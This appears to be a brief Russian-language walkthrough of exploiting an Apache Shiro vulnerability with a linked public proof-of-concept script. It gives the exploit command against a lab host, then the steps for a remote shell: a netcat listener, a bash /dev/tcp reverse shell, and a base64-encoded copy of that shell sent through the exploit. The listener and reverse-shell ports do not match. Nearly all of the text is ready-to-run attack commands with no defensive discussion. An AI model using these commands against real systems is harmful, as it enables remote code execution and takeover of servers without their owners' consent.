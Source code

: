 <languages   />

POC
---

<https://github.com/insightglacier/Shiro_exploit>

Эксплуатация уязвимостей
------------------------

    python3 shiro_exploit.py -t 3 -u http://192.168.2.147:8080 -p "touch a.txt"

Команда была выполнена успешно.
-------------------------------

Getshell
--------

Слушатель выполняет следующие команды:

    nc -lvp 666

Машина-жертва выполняет следующую команду:

    bash -i >& /dev/tcp/192.168.2.130/6666 0>&1
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMwLzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}

    python3 shiro_exploit.py -t 3 -u http://192.168.2.147:8080 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMwLzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}"
